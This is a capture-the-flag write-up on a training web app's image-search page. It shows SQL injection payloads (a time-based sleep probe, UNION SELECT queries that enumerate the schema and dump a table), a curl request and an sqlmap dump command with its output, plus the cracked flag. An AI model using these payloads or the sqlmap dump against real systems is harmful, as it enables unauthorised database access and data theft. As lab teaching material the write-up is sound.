 # SQL Injection /?page=searchimg

## Wapiti Report
Blind SQL vulnerability via injection in the parameter id
`GET /?page=searchimg&id=sleep%287%29%231&Submit=Submit HTTP/1.1`
Host: 10.13.200.53
Referer: http://10.13.200.53/?page=searchimg
curl "http://10.13.200.53/?page=searchimg&id=sleep%287%29%231&Submit=Submit" -e "http://10.13.200.53/?page=searchimg"


## Exploit
**Database name:**
```
ID: 0 UNION SELECT 1,database() 
Title: Member_images
Url : 1
```

**Content:**
```
1 UNION select table_name, column_name FROM information_schema.columns
list_images
- id
- url
- title
- comment
```

**By searching in the databse columns we can find:**
```
ID: 1 UNION select url, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

[SHA-256 - Password SHA256 Hash Decryption - Online Decoder/Encoder](https://www.dcode.fr/sha256-hash)
*MD5 decrypt:* `albatroz`
*SHA256 encrypt:* `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

### SQLmap tool
`sqlmap -u "http://172.16.0.98/index.php?page=searchimg&id=1&Submit=Submit#" --dump -T list_images -D Member_images`
```
Database: Member_images
Table: list_images
[5 entries]
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| id | url                                      | title     | comment
                                                                 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| 1  | https://fr.wikipedia.org/wiki/Programme_ | Nsa       | An image about the NSA !
                                                                 |
| 2  | https://fr.wikipedia.org/wiki/Fichier:42 | 42 !      | There is a number..
                                                                 |
| 3  | https://fr.wikipedia.org/wiki/Logo_de_Go | Google    | Google it !
                                                                 |
| 4  | https://en.wikipedia.org/wiki/Earth#/med | Earth     | Earth!
                                                                 |
| 5  | borntosec.ddns.net/images.png            | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
+----+------------------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

## Prevention 
See: [SQL Injection Prevention](../../sql_injection_member/Resources/sql_injection_member.md#prevention)

